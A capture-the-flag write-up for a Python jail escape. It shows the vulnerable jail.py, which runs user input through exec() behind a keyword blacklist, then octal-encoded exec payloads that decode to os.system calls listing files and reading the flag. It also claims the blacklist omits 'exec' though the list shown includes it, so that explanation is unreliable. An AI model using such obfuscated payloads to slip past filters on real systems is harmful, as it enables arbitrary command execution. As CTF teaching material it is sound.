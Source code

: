 # I Want to Break Free

by HexPhoenix

I want to break free... from this Python jail. nc 143.198.184.186 45457

## Analysis

In this challenge we were given a zip file named `jailpublic.zip`. It contains 2 files, `blacklist.txt` and `jail.py`.

#### jail.py

```python
#!/usr/bin/env python3

#!/usr/bin/env python3

def server():
    message = """
    You are in jail. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.readlines()
            for badword in badwords:
                if badword in data or data in badword:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```

It seems that the program will execute if it doesn't contain any string in `blacklist.txt`. So, let's take a look at `blacklist.txt`.

#### blacklist.txt

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

Since the blacklist didn't contain "exec", we could use it to our advantage. To make it difficult to read by python, we could use another way to interpret the character. For example we can try to use octal here so the python wouldn't detect it as the string they backlisted. (Reference: [bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)).

First we need to read or list what is inside the directory.
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
If we convert those octal numbers to string, it will turn into: `__import__('os').system('ls')`.

![](iwanttobreakfree(ls).png)

There is `cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt` inside the directory and I think that may be the flag.

Convert our payload into octal again and wrap it with exec(""). Now we use this payload to read the flag `"__import__('os').system('cat cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt')"`.

Payload:
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\143\146\67\67\62\70\142\145\67\71\70\60\146\144\67\67\60\143\145\60\63\144\71\144\71\63\67\144\66\144\64\60\70\67\63\61\60\146\60\62\144\142\67\146\143\142\141\66\145\142\142\141\144\63\70\142\144\66\64\61\142\141\61\71\56\164\170\164\47\51")
```

Now all we need to do is just send the payload into the program
![](iwanttobreakfree(cat).png)

Flag: `kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`
